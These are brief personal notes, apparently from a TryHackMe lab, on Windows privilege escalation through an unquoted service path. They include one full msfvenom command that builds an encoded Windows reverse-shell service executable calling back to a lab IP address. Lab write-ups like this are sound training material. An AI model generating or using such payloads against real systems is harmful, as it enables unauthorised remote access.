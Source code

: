tryhack me 

recon 
nmap workd rustscan did not
port 80 8080 open
port 8080 had a vulnerability 
msfconsole 
powershell mafia ps script
use unquoted strings to get service we can exploit 
turn off service using sc net stop service
crate a payload with msf venom add advanced.exe 
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.249.117 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe


to its path
run 